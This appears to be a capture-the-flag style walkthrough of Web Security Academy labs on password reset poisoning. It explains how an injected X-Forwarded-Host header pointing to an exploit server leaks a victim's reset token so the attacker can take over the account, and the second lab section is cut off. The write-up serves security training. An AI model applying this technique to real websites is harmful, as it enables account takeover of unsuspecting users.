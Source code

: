 ### Password reset poisoning via middleware
```bash

This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

Use forgot password functionality for username wiener
Check email for username wiener
Reset password
Visit

POST /forgot-password HTTP/1.1

Go to exploit server and copy "exploit-ac701fdc1f3a2c66c00401e201aa00cd.web-security-academy.net/"
Insert to POST request:

X-Forwarded-Host: exploit-ac701fdc1f3a2c66c00401e201aa00cd.web-security-academy.net/

Change username to "carlos"

HTTP/1.1 200 OK

Due to this emulating "carlos" clicking on a random link go back to your exploit server and find the outlier in the ip addresses

Take the old reset code path when you reset "wiener" account and replace the token with the new token found on the exploit server for the unknown ip

https://ac971f631fe62ca6c00001b300d5002c.web-security-academy.net/forgot-password?temp-forgot-password-token=d0adpfp3XGgR8iRy9WTbcsWd3IOm78n9

to 

https://ac971f631fe62ca6c00001b300d5002c.web-security-academy.net/forgot-password?temp-forgot-password-token=JrDg9DoOZ7f7i1dcWFh7MM5yhZKm0qum

Reset the password

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220510191807.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220510001831.png)

### Basic password reset poisoning
```bash

# This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account.

# You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.


Use forgot password functionality for username wiener
Check email for username wiener
Reset password
Visit

POST /forgot-password HTTP/1.1

```